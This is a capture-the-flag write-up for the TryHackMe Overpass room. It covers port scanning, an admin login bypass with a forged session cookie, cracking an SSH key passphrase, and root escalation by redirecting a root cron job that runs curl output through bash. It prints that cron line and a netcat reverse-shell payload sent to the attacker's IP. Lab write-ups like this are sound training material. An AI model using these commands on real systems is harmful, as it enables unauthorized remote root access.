 ```yaml
---
layout: default
---
```

# Overpass Writeup

This is my writeup for the room [Overpass](https://tryhackme.com/room/overpass) in tryhackme. Hope it helps you :D

## Enumeration

First we'll start scanning ports with nmap.

```
nmap -A -sC -v <MACHINE_IP>
```

![Nmap Results](/assets/images/overpass/nmap-results.png)

Okay, we have ssh and a web server running, lets take a look at the website.

The web server is running the site Overpass where you can download the source code of their password manager and see information about them, i couldn't find anything looking at the source code of the pages so i went on to scan the directories of the site.

![Gobuster Results](/assets/images/overpass/gobuster-results.png)

Oh look, a /admin directory, thats certainly interesting, it is a login page.

## Broken Authentication

Okay, in this part i got a litte bit stuck, i tried sql injection, tried a little bit of brute forcing with the names in the aboutus page, read over and over the password manager source code and the javascript files.

I was frustrated thinking to myself that just when i thought i was getting the hang in penetration testing i couldn't even do an easy room. So i started trying things that in my head made no sense but screw it.

So let's take a look in the login.js file.

![login.js](/assets/images/overpass/login.js.png)

This login function sends a post request to /api/login and if the credentials are correct, it stores a cookie called SessionToken.

Then i set the cookie SessionToken in my browser with a random value... And it worked.

Okay, when it worked it didn't made a lot of sense to me, i thought "who in their right minds would just check if a cookie is set and not validate it to let the user log in", thats when i went to see some small web apps i made in the past and saw that this is probably more common than i thought.

But okay, now we see this beautiful page.

![Admin Page](/assets/images/overpass/admin-page.png)

## Enter the machine with SSH

Poor james can't remember his password, and now we have his SSH key. Lets try lo login in ssh with it.

![SSH Login Try](/assets/images/overpass/ssh-login-try.png)

It needs a password so we'll bruteforce it.

I used john the ripper to crack it because i dont know another way to do it, so first we use ssh2john to get the hash of the password.

![ssh2john](/assets/images/overpass/ssh2john.png)

And then i use john to crack the hash.

![password](/assets/images/overpass/pass.png)

Now we log in the machine and there is the first flag.

![user.txt](/assets/images/overpass/user.txt.png)

## Privilege escalation

Okay, first things first lets read this todo.txt file, okay, in the file james says something about storing his password in their password manager so i searched for an overpass file and i found it in /usr/bin/overpass and executing it we can get james password, but it doesnt help us with privilege escalation.

The interesting part of the todo.txt file is where it says something about an automated build script, so i decided to check /etc/crontab and over there i found this.

```
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

This executes the script located on overpass.thm/downloads/src/buildscript.sh every minute as root, interesting ...

So i ran linpeas on the machine and it show that there is a interesting file that we have the privileges to write.

![linpeas](/assets/images/overpass/linpeas.png)

When i saw this i found it suuuper cool, i loved the idea of using /etc/hosts file to change the webserver that the machine will send a request.

So i went back to my machine and made the file downloads/src/buildscript.sh and inside the file i used a reverse shell from [PentestMonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

```
mkdir downloads
mkdir downloads/src
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <YOUR_VPN_IP> 1234 >/tmp/f" > downloads/src/buildscript.sh
```

Then i started a python webserver on my machine.

```
sudo python3 -m http.server 80
```

In another terminal i started a netcat listener on port 1234

```
nc -lvnp 1234
```

And then in the remote machine i edited the /etc/hosts and changed the ip of overpass.thm to the ip of my machine.

![/etc/hosts](/assets/images/overpass/hosts.png)

Now we wait until the script gets executed and we can get a reverse shell as root.

![root.txt](/assets/images/overpass/root.txt.png)

And there we have it, the root flag.

This is my first writeup and i hope it helps you that is reading it, i had a lot of fun doing this room and wanted to thanks [James](https://tryhackme.com/p/NinjaJc01) for doing it because his rooms are awesome :DD
